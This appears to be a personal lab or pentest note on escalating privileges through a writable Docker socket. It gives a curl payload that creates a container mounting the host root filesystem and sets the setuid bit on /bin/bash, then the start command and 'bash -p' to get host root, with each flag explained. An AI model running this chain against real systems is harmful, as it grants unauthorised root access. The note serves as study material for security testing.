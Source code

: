 https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-.socket-files

The Docker socket, often found at */var/run/docker.sock*, is a critical file that should be secured. By default, it's writable by the root user and members of the docker group. Possessing write access to this socket can lead to privilege escalation. Here's a breakdown of how this can be done and alternative methods if the Docker CLI isn't available.

If we already found the usage of --unix-socket
![[Pasted image 20240403181648.png]]
Payload to be performed in a docker with root access to take advantage of the API:
````
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"sandbox:latest","HostConfig":{"Binds": ["/:/mounted"]},"Cmd":["/bin/sh", "-c", "chmod u+s /mounted/bin/bash"],"Tty": true}' http://localhost/containers/create
````

![[Pasted image 20240403183338.png]]
>{"Id":"==628d==3f02ba86cd85f10f1af6f3e710dc757362891652cd5ceb9e7f603d8fc0ad","Warnings":[]}
1. **curl**: `curl` is a command-line tool for transferring data using various protocols. In this case, it's being used to make an HTTP request to the Docker daemon's API.
    
2. **-XPOST**: This option specifies that `curl` should use the HTTP POST method for the request. It's indicating that the intention is to create a new resource on the Docker daemon.
    
3. **-H "Content-Type: application/json"**: This option sets the HTTP header `Content-Type` to `application/json`. It tells the server that the body of the request will be in JSON format.
    
4. **--unix-socket /var/run/docker.sock**: This option specifies the Unix socket file through which `curl` communicates with the Docker daemon. The Docker daemon exposes an API on this Unix socket, allowing clients like `curl` to interact with it.
    
5. **-d '{"Image":"sandbox:latest","HostConfig":{"Binds": ["/:/mounted"]},"Cmd":["/bin/sh", "-c", "chmod u+s /mounted/bin/bash"],"Tty": true}'**: This option sends data in the body of the HTTP request. In this case, it's a JSON payload that describes the configuration for creating a new Docker container. Let's break down the payload:
    
    - `"Image": "sandbox:latest"`: Specifies the image (`sandbox`) and tag (`latest`) to use for the container.
    - `"HostConfig": {...}`: Configures various aspects of how the container interacts with the host system.
        - `"Binds": ["/:/mounted"]`: Mounts the root filesystem of the host at `/mounted` inside the container.
    - `"Cmd": ["/bin/sh", "-c", "chmod u+s /mounted/bin/bash"]`: Specifies the command to run inside the container. In this case, it runs a shell command to make the `bash` binary inside the container setuid (`u+s`), which effectively grants the user executing `bash` elevated privileges.
    - `"Tty": true`: Indicates that the container should allocate a pseudo-TTY.
6. **[http://localhost/containers/create](http://localhost/containers/create)**: This is the URL to which `curl` sends the HTTP request. It's the Docker daemon's API endpoint for creating containers.
This is a JSON syntaxis:
{
  "Image": "sandbox:latest",
  "HostConfig": {
    "Binds": ["/:/mounted"]
  },
  "Cmd": ["/bin/sh", "-c", "chmod u+s /mounted/bin/bash"],
  "Tty": true
}

# Running the container
Running the container, in ID section it's enough to put only the 4 first characters:

````
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/628d/start
````

### Root in the main machine
We only need to use `bash -p` to enter as root in the main machine

![[Pasted image 20240403183609.png]]